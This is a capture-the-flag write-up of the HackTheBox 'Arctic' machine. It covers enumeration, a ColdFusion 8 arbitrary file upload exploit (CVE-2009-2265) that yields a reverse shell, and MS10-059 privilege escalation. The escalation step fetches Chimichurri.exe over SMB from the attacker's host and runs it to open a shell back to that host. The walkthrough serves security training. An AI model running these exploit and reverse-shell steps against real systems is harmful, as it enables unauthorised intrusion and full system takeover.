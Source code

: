 ```yaml
---
layout: post
title: HackTheBox Arctic 
date: 2017-03-22
tags: [HackTheBox, Windows]
---
```


# Machine Synopsis

Arctic is fairly straightforward, however the load times on the web server pose a few challenges for exploitation. Basic troubleshooting is required to get the correct exploit functioning properly. ([Source](https://www.hackthebox.com/machines/arctic))

# Enumeration

```bash
┌──(root💀Shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up (0.17s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   173.13 ms 10.10.14.1
2   173.11 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 156.50 seconds
```

It seems that there is a weird port `8500` open. Lets check it in our browser.

# Website (Port 8500)

![Port8500.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Arctic/Port8500.png?raw=true)

![Port8500_2.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Arctic/Port8500_2.png?raw=true)

![Port8500_3.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Arctic/Port8500_3.png?raw=true)

There's an interesting folder named `administrator` which presented us a ColdFusion 8 login page.

![Admin.png](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Arctic/Admin.png?raw=true)

# Vulnerabilities

Since we know that the website is using ColdFusion 8, we should search up some vulnerabilities on it using `searchsploit`.

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# searchsploit coldfusion
...
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cross-Site Scripting                   | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.cfm' Query String Cross-Site Scriptin | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String Cross-Site Scripting         | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' Cross-Site Scripting          | cfm/webapps/33168.txt
Allaire ColdFusion Server 4.0 - Remote File Display / Deletion / Upload / Execution                            | multiple/remote/19093.txt
Allaire ColdFusion Server 4.0.1 - 'CFCRYPT.EXE' Decrypt Pages                                                  | windows/local/19220.c
Allaire ColdFusion Server 4.0/4.0.1 - 'CFCACHE' Information Disclosure                                         | multiple/remote/19712.txt
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                              | cfm/webapps/16788.rb
...
```

The exploit that we are interested in is the `ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)` exploit. 

The vulnerability is [CVE-2009-2265](https://www.exploit-db.com/exploits/16788) and there is an exploit on this GitHub [repo](https://github.com/zaphoxx/zaphoxx-coldfusion).

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# python3 2265.py -t 10.10.10.11 -p 8500 -f shell.jsp
[info] Using following settings:
-----------------------------------
target    :          10.10.10.11
port      :                 8500
filepath  :            shell.jsp
basepath  :
-----------------------------------
[+] File successfully uploaded!
[+] Goto '/userfiles/file/TKVC4S.jsp' to trigger the payload!
[info] Make sure you have a listener active
[info] (e.g. nc -lvp 4444) before triggering the payload
```

After we have successfully run the script, we can `curl` the website to trigger the payload - remember to setup a netcat listener first!

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# curl 10.10.10.11:8500/userfiles/file/TKVC4S.jsp
```

```bash
┌──(shiro㉿Shiro)-[~]
└─$ nc -nlvp 1234
...

C:\ColdFusion8\runtime\bin>whoami
arctic\tolis

C:\Users\tolis\Desktop>type user.txt
02650d3a69a70780c302e146a6cb96f3
```

# Privilege Escalation

```powershell
C:\ColdFusion8\runtime\bin>systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          23/5/2021, 6:17:36 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 360 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.213 MB
Virtual Memory: In Use:    834 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

Copy this `systeminfo` into a `txt` file and use Windows-Exploit-Suggester for help.

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# Windows-Exploit-Suggester/windows-exploit-suggester.py --update

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2021-05-23-mssb.xls --systeminfo sysinfo.txt
...
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
...
[*] done
```

MS10-059 sounds interesting because we want to escalate our privilege. The exploit can be found [here](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe). Let's open a smb server to share the exploit.

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# python3 /opt/impacket/examples/smbserver.py share .
```

```powershell
C:\ColdFusion8\runtime\bin>net use \\10.10.14.4\share
C:\ColdFusion8\runtime\bin>copy \\10.10.14.4\share\Chimichurri.exe
C:\ColdFusion8\runtime\bin>.\Chimichurri.exe 10.10.14.4 443
```

```powershell
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# nc -nvlp 443
...
C:\ColdFusion8\runtime\bin>whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
ce65ceee66b2b5ebaff07e50508ffb90
```


